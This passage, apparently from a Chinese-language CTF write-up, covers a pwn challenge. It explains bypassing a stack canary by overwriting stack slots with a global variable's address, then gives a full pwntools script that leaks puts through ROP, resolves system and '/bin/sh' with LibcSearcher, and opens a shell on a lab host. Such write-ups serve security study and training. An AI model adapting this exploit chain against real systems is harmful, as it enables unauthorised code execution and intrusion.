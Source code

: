 在welcome函数中，可以发现一个gift变量，此为一个未初始化的全局变量。

##### 绕过canary

将ebp-0x10处的地址改为gift全局变量的地址，ebp-0x8处覆盖为0。

##### ROP获得shell

将puts函数的真实地址输出，再使用libcsearcher库，获取system函数地址和/bin/sh的地址。

exp.py

```python
from pwn import *
from LibcSearcher import *

context(arch="amd64", os="linux", log_level="debug")
io = process("./my_cannary")
io = remote("172.21.4.12", 10102)
elf = ELF("./my_cannary")

# f = open("inputfile", "wb")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
system_plt = elf.plt['system']

popret = 0x400a43
mainaddr = 0x400998

payload1 = 'a' * 0x30 + p64(0x6010C0) + p64(0x0) + p64(0x0) + p64(popret) + p64(puts_got) + p64(puts_plt) + p64(mainaddr)

io.recvuntil("begin\n")
io.sendline(payload1)
puts_addr = u64(io.recv(6).ljust(8, '\x00'))
# print(hex(puts_addr))

libc = LibcSearcher("puts", puts_addr)
libcbase = puts_addr - libc.dump("puts")
binsh_addr = libcbase + libc.dump("str_bin_sh")
system_addr = libcbase + libc.dump("system")

payload2 = 'a' * 0x30 + p64(0x6010C0) + p64(0x0) + p64(0x0) + p64(popret) + p64(binsh_addr) + p64(system_addr)

io.recvuntil("begin\n")
io.sendline(payload2)
io.interactive()
```

#### blind_note

checksec发现程序开启了canary保护。
